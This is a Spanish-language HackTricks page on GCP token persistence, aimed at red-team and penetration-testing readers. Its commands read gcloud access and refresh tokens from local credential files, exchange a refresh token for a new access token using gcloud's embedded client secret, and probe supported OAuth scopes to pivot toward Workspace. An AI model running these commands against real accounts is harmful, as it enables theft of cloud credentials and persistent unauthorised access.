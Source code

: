 # GCP - Persistencia de Tokens

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

### Tokens de Usuario Autenticados

Para obtener el **token actual** de un usuario, puedes ejecutar:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Consulta en esta página cómo **usar directamente este token usando gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Para obtener los detalles para **generar un nuevo token de acceso**, ejecuta:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

También es posible encontrar tokens de actualización en **`$HOME/.config/gcloud/application_default_credentials.json`** y en **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Para obtener un nuevo token de acceso actualizado con el **token de actualización**, ID de cliente y secreto de cliente, ejecuta:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validez de los tokens de actualización se puede gestionar en **Admin** > **Security** > **Google Cloud session control**, y por defecto está configurada para 16h, aunque se puede establecer para que nunca expire:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Flujo de autenticación

El flujo de autenticación al usar algo como `gcloud auth login` abrirá un aviso en el navegador y después de aceptar todos los alcances, el navegador enviará una solicitud como esta al puerto http abierto por la herramienta:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Luego, gcloud utilizará el estado y el código con un `client_id` codificado (`32555940559.apps.googleusercontent.com`) y **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) para obtener los **datos finales del token de actualización**.

{% hint style="danger" %}
Ten en cuenta que la comunicación con localhost es en HTTP, por lo que es posible interceptar los datos para obtener un token de actualización; sin embargo, estos datos son válidos solo 1 vez, por lo que esto sería inútil, es más fácil simplemente leer el token de actualización del archivo.
{% endhint %}

### Alcances de OAuth

Puedes encontrar todos los alcances de Google en [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) o obtenerlos ejecutando:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Es posible ver qué alcances la aplicación que **`gcloud`** utiliza para autenticarse puede soportar con este script:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Después de ejecutarlo, se verificó que esta aplicación admite estos alcances:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
es interesante ver cómo esta aplicación soporta el **`drive`** scope, lo que podría permitir a un usuario escalar de GCP a Workspace si un atacante logra forzar al usuario a generar un token con este scope.

**Ver cómo** [**abusar de esto aquí**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Cuentas de Servicio

Al igual que con los usuarios autenticados, si logras **comprometer el archivo de clave privada** de una cuenta de servicio, podrás **acceder a ella generalmente tanto tiempo como desees**.\
Sin embargo, si robas el **token de OAuth** de una cuenta de servicio, esto puede ser aún más interesante, porque, incluso si por defecto estos tokens son útiles solo por una hora, si la **víctima elimina la clave API privada, el token de OAuth seguirá siendo válido hasta que expire**.

### Metadatos

Obviamente, mientras estés dentro de una máquina que se ejecute en el entorno de GCP, podrás **acceder a la cuenta de servicio adjunta a esa máquina contactando el endpoint de metadatos** (ten en cuenta que los tokens de OAuth a los que puedes acceder en este endpoint suelen estar restringidos por scopes).

### Remediaciones

Algunas remediaciones para estas técnicas se explican en [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### Referencias

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
